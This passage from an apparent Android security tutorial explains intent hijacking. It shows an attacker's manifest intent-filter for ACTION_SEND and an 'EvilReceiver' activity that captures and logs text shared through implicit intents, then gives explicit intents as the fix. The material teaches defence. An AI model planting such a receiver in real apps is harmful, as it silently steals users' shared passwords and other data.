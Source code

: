 When this happens, the Android system looks for any app that can handle that intent. The problem arises when a malicious app registers itself with an `<intent-filter>` for that same action. This allows the attacker’s app to receive the data the victim is trying to send. For example, if a victim app shares sensitive text like a password using `ACTION_SEND`, an attacker’s app can declare in its manifest that it handles `ACTION_SEND` with type `text/plain`. When the victim calls `startActivity(intent)`, Android may hand the data to the attacker instead of the intended app. This is called **intent hijacking**, because the attacker silently intercepts data by hijacking the implicit intent. The issue exists only because the victim didn’t restrict the intent to a specific trusted app — if it had used an **explicit intent** (via `setPackage()` or `setComponent()`), the attacker wouldn’t be able to intercept it.

Manifest for attacker app:
```
<activity android:name=".EvilReceiver">  
<intent-filter>         
		<action android:name="android.intent.action.SEND"/>         <category android:name="android.intent.category.DEFAULT"/>         <data android:mimeType="text/plain"/>     
</intent-filter>
</activity>

```

Attacker’s code:
```
public class EvilReceiver extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent intent = getIntent();
        String stolenData = intent.getStringExtra(Intent.EXTRA_TEXT);
        Log.d("StolenData", stolenData);  // Attacker steals the victim’s text
    }
}
```

##### 19.3 Intercepting Implicit intent to load arbitrary URL
